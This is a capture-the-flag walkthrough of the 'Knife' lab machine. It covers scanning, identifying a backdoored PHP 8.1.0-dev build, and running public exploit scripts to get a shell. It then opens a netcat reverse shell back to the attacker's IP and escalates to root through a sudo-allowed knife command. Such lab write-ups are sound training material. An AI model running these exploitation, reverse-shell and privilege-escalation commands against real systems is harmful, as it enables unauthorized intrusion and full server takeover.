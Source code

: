 # Knife      

![Knife](./Screenshots/knifelogo.png)

## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/knifenmap.png)

Here are the descriptions of the open ports shown in the screenshot:

### **22/tcp (SSH)**
The **SSH** service is running **OpenSSH 8.2p1** on **Ubuntu**. This service enables secure remote access and uses **protocol version 2.0**. The scan reveals the server’s SSH host keys, including **RSA (3072-bit)**, **ECDSA (256-bit)**, and **ED25519 (256-bit)**, which are used for encryption and server authentication. The presence of these keys provides an indication of the security configuration for SSH on this system.

### **80/tcp (HTTP)**
The web server running on this port is **Apache httpd 2.4.41** on **Ubuntu**. It supports HTTP methods **GET**, **HEAD**, **POST**, and **OPTIONS**, which allow for a range of client interactions. The HTTP title returned is **Emergent Medical Idea**. Additionally, the **Apache/2.4.41 (Ubuntu)** server header confirms the server type and version, which could be useful in determining any specific vulnerabilities associated with this version.

When I saw that http is open, I pasted `http://{target ip}` into the browser.

![web](./Screenshots/knifeweb.png)

As the site is very limited and you can't navigate through it, I decided to use **Gobuster** to search for subdomains but I did not find anything. 

### cURL + Wappalyzer

I decided to look around. I've checked page source but nothing interesting was there. The most useful thing turned out to be **Wappalyzer** extension.

![cURL](./Screenshots/knifecurl.png)

This led me to read about PHP 8.1.0 but again - I did not find anything that could help me further.

So I typed:

```
curl -I http://{target ip}/
```

![cURL](./Screenshots/knifecurl2.png)

I pasted **PHP/8.1.0-dev** into Google and found an interesting article:

```
https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
```

Long story short:

The article discusses a **backdoor** present in **PHP version 8.1.0-dev**, allowing **remote code execution (RCE)**. This **backdoor** was introduced into the PHP source code by an unauthorized individual, posing a severe security threat to servers running this version of PHP. The **backdoor** is embedded through a simple `user_agent` function call, which accepts code as a parameter and executes it. In practice, this means anyone who calls this code using the appropriate `User-Agent` header can run arbitrary commands on the server.

An attacker could send a specially crafted HTTP request with the `User-Agentt` parameter containing a command they want to execute on the server. This command is then interpreted and executed by PHP without any additional authorization, granting full access to the system. This kind of vulnerability in PHP is highly risky, as it allows intrusion and remote control over the server. The recommended solution is to update PHP to a version that does not contain this backdoor. The article cautions administrators against deploying experimental software versions in production environments. Exploiting this vulnerability may also be challenging to detect, as the attack leaves no obvious traces in the server logs.

I quickly found the exploit to it:

```
https://www.exploit-db.com/exploits/49933
```

```
https://github.com/flast101/php-8.1.0-dev-backdoor-rce
```

### Exploitation

Let's use this `exploit`.

Type in order:

```
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```

```
cd php-8.1.0-dev-backdoor-rce
```

Let's use **backdoor** script.

```
python3 backdoor_php_8.1.0-dev.py
```

Provide `http://{target ip}/` when it asks you to enter the host url.

![Exploitation](./Screenshots/knifeexploit.png)

We have a `shell`. Perfect.

### Get the user flag

The `user` flag is in the `/home/james` path.

![flag](./Screenshots/knifeuserflag.png)

### Privilege escalation

Since the current shell provides limited options for navigating the system and I couldn't find a way to stabilize it, I decided to simply use a reverse shell script (**revshell_php_8.1.0-dev.py**) to make it easier for me to find an idea to escalate privileges.

![PE](./Screenshots/knifepe.png)

### Netcat

First of all, let's set up a **Netcat** listener.

```
nc -lvnp {any port you want}
```

![PE](./Screenshots/knifepe2.png)

Now in the tab with exploit type:

```
python3 revshell_php_8.1.0-dev.py http://{target ip}/ {your tun0 ip} {port you have chosen}
```

and press `Enter`.

![PE](./Screenshots/knifepe3.png)


In your **Netcat** tab you should have a shell.

![PE](./Screenshots/knifepe4.png)

It is more stabilized than previous one, excellent.

![PE](./Screenshots/knifepe5.png)

We can see .ssh directory. We could use `james`'s OPENSSH private key to have even better shell by logging through **SSH** but it isn't necessary.

![PE](./Screenshots/knifepe6.png)

Now, we could transfer **LINpeas.sh** script via simple Python3 http server form our local machine to the target machine and run it but I found something interesting and finally this gave me the `root`'s flag.

When I want to escalate privileges I almost always hit:

```
sudo -l
```

command.

This time it was very useful again.

![PE](./Screenshots/knifepe7.png)

The user `james` can run the command `/usr/bin/knife` with root privileges without needing to enter a password (NOPASSWD).

As challenge name is **Knife** I assume that this is fair path to explore.

We could probably edit the `knife` file with some interesting payload and then run it but in cases like this I always like to check **GTFOBins** binaries.

![PE](./Screenshots/knifepe8.png)

I found this. Let's use it.

Let's move to the `/usr/bin` directory first:

```
cd /usr/bin
```

and when we are in the right path, let's type:

```
sudo knife exec -E 'exec "/bin/sh"'
```

![PE](./Screenshots/knifepe9.png)

We are `root` :)

### Get the root flag

`Root` flag is in the `/root` directory.

![flag](./Screenshots/kniferootflag.png)

### Paste the flags

![pwned](./Screenshots/knifepwned.png)